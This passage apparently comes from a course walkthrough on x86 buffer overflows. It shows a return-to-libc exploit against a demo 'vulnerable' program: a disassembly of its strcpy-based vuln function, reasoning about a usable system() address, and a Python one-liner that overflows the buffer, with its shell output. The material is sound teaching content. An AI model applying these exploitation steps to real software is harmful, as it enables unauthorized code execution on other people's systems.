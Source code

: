 After subtracting 1 byte, we can see that we get a valid set of instructions,
but due to the non-risc nature of x86 (remember it is a complex instruction
set), the offsets change the instructions, mangling the call. However, if we
keep stepping backward, after 4 bytes, we get a valid instruction
sequence whereby the instructions of system are unchanged. 

So what if we jump to `0xf7e261fc`? This is a `lea` and so it's just
adding/multiplying. In other words, it's a no-op! It has no bearing on the
remainder of the instructions. That means we can just use `0xf7e261fc` as our
address for `system()`.


## Jumping to system

Let's try and use that in our exploit. First, we need to set up the exploit, and
we'll do that in the normal way.

We can find the length of the buffer to the exploit:

``` example
080484d5 <vuln>:
 80484d5:   55                      push   ebp
 80484d6:   89 e5                   mov    ebp,esp
 80484d8:   83 ec 48                sub    esp,0x48
 80484db:   c7 45 f4 00 00 00 00    mov    DWORD PTR [ebp-0xc],0x0
 80484e2:   8b 45 0c                mov    eax,DWORD PTR [ebp+0xc]
 80484e5:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 80484e9:   8d 45 d4                lea    eax,[ebp-0x2c] #<------------
 80484ec:   89 04 24                mov    DWORD PTR [esp],eax
 80484ef:   e8 6c fe ff ff          call   8048360 <strcpy@plt>
 80484f4:   eb 20                   jmp    8048516 <vuln+0x41>
 80484f6:   8b 45 f4                mov    eax,DWORD PTR [ebp-0xc]
 80484f9:   8d 50 01                lea    edx,[eax+0x1]
 80484fc:   89 55 f4                mov    DWORD PTR [ebp-0xc],edx
 80484ff:   8d 55 d4                lea    edx,[ebp-0x2c]
 8048502:   89 54 24 08             mov    DWORD PTR [esp+0x8],edx
 8048506:   89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 804850a:   c7 04 24 0e 86 04 08    mov    DWORD PTR [esp],0x804860e
 8048511:   e8 3a fe ff ff          call   8048350 <printf@plt>
 8048516:   8b 45 f4                mov    eax,DWORD PTR [ebp-0xc]
 8048519:   3b 45 08                cmp    eax,DWORD PTR [ebp+0x8]
 804851c:   7c d8                   jl     80484f6 <vuln+0x21>
 804851e:   c9                      leave  
 804851f:   c3                      ret    
```

Then we can set up the overflow:

``` example
user@si485H-base:demo$ ./vulnerable 10 `python -c "import struct; print 'A'*(0x2c+4)+struct.pack('<I',0xf7e261fc)"`
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???: not found
Segmentation fault (core dumped)
```
